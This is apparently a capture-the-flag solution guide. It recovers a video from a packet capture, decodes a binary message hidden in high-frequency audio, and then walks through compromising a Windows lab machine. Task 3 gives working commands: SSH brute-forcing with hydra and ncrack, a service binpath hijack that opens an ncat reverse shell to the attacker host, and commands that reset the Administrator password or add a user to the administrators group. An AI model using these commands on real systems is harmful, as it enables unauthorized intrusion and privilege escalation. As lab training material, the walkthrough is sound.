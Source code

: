 # Can't You Hear Me Knocking

_Solution Guide_

## Overview

This challenge involves recovering a video from a pcap file, then decoding a message hidden in it and finally exploiting a machine to gain access.

## Task 1: Recover video from pcap

1. Open the pcap file in Wireshark.
2. Filter by udp since you're looking for a streaming video.
3. Statistics - Conversations may help find the transfer: **conversations > UDP** tab, sort on **Bytes** or **Packets** column. There is a 15MB transfer between 2 IP addresses on port 1099.

<img src="img/c49-img1.png">

4. Filter on **udp.port==1099**, you can see that the first packet sent is a matroska (MKV Video) file.

<img src="img/c49-img2.png">

5. Right click on any packet and select **Follow > TCP Stream**.
6. Change the **Show data as** dropdown to **Raw**, then Save as **Any Name**.mkv.
7. you can view the view the video to ensure it is the file you're looking for.

<img src="img/c49-img3.png">

## Task 2: Separate the audio from the video and examine

1. In **VLC MEDIA PLAYER** select **Media > Convert / Save** and in the next menu drag the video into the window and select **Convert / Save**.
2. On the next screen we want to capture an uncompressed audio format, so select the **Audio - FLAC** Profile, choose a filename.flac and press **Start**.
3. Open the resultant file in **Audacity**.
4. If you look ar the waveform display you will notice there are a series of loudness spikes at regular intervals.  

<img src="img/c49-img4.png">

5. You can also open the spectrograph view and it will show the spikes are a much higher frequency tone than the rest of the audio in the file (examining the frequency analysis shows it at a range beyond the human hearing range >20k hz).

<img src="img/c49-img5.png">

6. Zooming in on the spikes shows they are in intervals of 8 spikes, with a gap in between each group.  This should clue you in that it's binary. 
7. Using the left and right channels to determine 0/1 (top/bottom in the display) will give the following binary string:
**01010100 01101111 01101011 01100101 01101110 00100000 01100001 01110100 00100000 00110001 00110000 00101110 00110101 00101110 00110101 00101110 00110001 00110000 00110001 00100000 01100001 01100011 01100011 01100101 01110011 01110011 00100000 01100110 01110010 01101111 01101101 00100000 00110001 00110000 00101110 00110101 00101110 00110101 00101110 00110110 00110101**

8. Converting this string to text reveals the secret message:

<img src="img/c49-img6.png">

## Task 3: Access the machine and exploit

1. Change the analyst IP to 10.5.5.65.
2. Running an nmap scan against 10.5.5.101 reveals a few services running on open ports: 

<img src="img/c49-img7.png">

3. You'll need to crack the username and password with the supplied wordlist.
4. I'll be cracking the ssh login:
```
hydra -L /home/user/Desktop/wordlist.txt -P /home/user/Desktop/wordlist.txt 10.5.5.101 ssh
```
or
```
ncrack -U /home/user/Desktop/wordlist.txt -P /home/user/Desktop/wordlist.txt 10.5.5.101:22
```
5. Once the ability to login is obtained, you will see there is a token file at C:\token\token\.  This folder is also a network share.  However, you do not have access to the file.
6. The next step will be privilege escalating to an admin account to get the token.
7. You can use the rdesktop app to remote into the machine.
8. Once logged in open a command prompt and use the **Sysinternals AccessCheck** app located in c:\Program Data\chocolatey\bin\ to find an unsecured service.

<img src="img/c49-img8.png">

9. Open a **netcat** listener **on the kali machine** (I'm using port 99):
```
nc -klp 99
```
10. On the **Windows machine** in your command prompt, point the service to open a reverse shell:
```
sc config service2 binpath="C:\Program Files (x86)\Nmap\ncat.exe 10.5.5.65 99 --exec cmd.exe"
```
11. Start the service:
```
net start service2
```
This will give you a command prompt in the terminal the netcat listener is running in.  However, the service will time out so you need to work quickly:

<img src="img/c49-img9.png">

12. In the reverse shell, you can either reset the **Administrator** account password:
```
net user Administrator NewPass
```

<img src="img/c49-img10.png">

Alternatively, you can add the spokesman account to the administrators group:
```
net localgroup Administrators spokesman /add
```
13. Now that you have an administrator access, you can ssh in with the credentials and access the token file: 

<img src="img/c49-img11.png">
